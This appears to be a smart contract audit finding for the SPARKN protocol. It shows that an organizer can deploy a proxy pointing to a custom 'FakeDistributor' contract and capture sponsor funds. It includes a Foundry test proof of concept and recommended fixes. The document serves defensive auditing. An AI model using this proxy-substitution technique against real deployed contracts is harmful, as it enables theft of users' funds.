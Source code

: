 ## Vulnerability Details
Once the owner starts a contest via `setContest()`, there is nothing to stop a malicious organizer deploying a proxy pointing to his custom implementation instead of `Distributor.sol`. This *FakeDistributor* (custom implementation contract) can be used to steal funds or behave not as intended by the protocol.<br>
Please note that it is not clear how the unique `contestId` generated off-chain (and hence the contest started via `setContest()` by the owner) links to the proxy contract being deployed by the organizer and if there is any constraint applied on the organizer to prevent such behaviour.<br>
The following PoC can be run via `forge test --mt test_OrganizerCanDeployProxyPointingToCustomImplementation -vv`:
```js
function test_OrganizerCanDeployProxyPointingToCustomImplementation() public {
        // setup
        bytes32 randomId = keccak256(abi.encode("Jason", "001"));
        vm.prank(factoryAdmin);
        proxyFactory.setContest(organizer, randomId, block.timestamp + 8 days, address(distributor));
        bytes32 salt = keccak256(abi.encode(organizer, randomId, address(distributor)));

        // deploy proxy pointing to custom implementation
        vm.prank(organizer); 
        Proxy fakeProxy = new Proxy{salt: salt}(makeAddr("FakeDistributor"));

        // sponsor funds the contest
        vm.prank(sponsor);
        MockERC20(jpycv2Address).transfer(address(fakeProxy), 10000 ether);

        // Implementation contract deployed at "FakeDistributor" address can steal the funds or 
        // behave as it wants.
    }
```

## Impact
- Custom behaviour/loss of sponsor's funds due to malicious contract deployment by the organizer.
- Bypasses protocol's intended behaviour.

## Tools Used
Manual review, forge test.

## Recommendations
While the SPARKN team will have more visibility of the on-ground business case challenges, the following flow seems strong enough to deter a malicious organizer. This is inspired in part by SPARKN's approach towards `distributeByOwner()` functionality, where they charge 5% fee to deter any casual requests. Imposing a financial cost to an attack works well :
- Making them pay upfront (a registration fee of sorts), before the contest starts.
- Control for proxy deployment stays with the owner.
- Contest is only 'registered' via `setContest()`, NOT started.
- Contest is started only after proxy deployment by owner which is after organizer/sponsor transfers total funds to the proxy address.
- Distribution of rewards needs owner's approval.
<br><br>Below is a recommendation of one such workflow -<br>
![workflow](image-1.png)

